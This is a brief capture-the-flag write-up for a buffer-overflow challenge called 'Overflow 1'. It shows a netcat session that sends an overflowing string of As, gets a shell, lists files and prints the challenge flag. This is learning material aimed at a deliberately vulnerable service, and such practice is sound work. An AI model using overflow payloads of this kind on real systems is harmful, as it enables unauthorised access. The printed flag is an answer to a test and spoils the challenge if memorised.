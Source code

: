 # Overflow 1

Looking at the source, we see a character buffer of 16, and 4 As in char[str]. Below this, we see a check that if there are 4 As inputted at the start of your payload, something interesting happens. No solve script needed, just common sense.

```
$ nc cyberyoddha.baycyber.net 10001  
AAAAaaaaaaaaaaaaaaaaaaaaaaaa
ls
flag.txt
overflow1
cat flag.txt
CYCTF{st@ck_0v3rfl0ws_@r3_3z}
```

#### Flag: CYCTF{st@ck_0v3rfl0ws_@r3_3z}
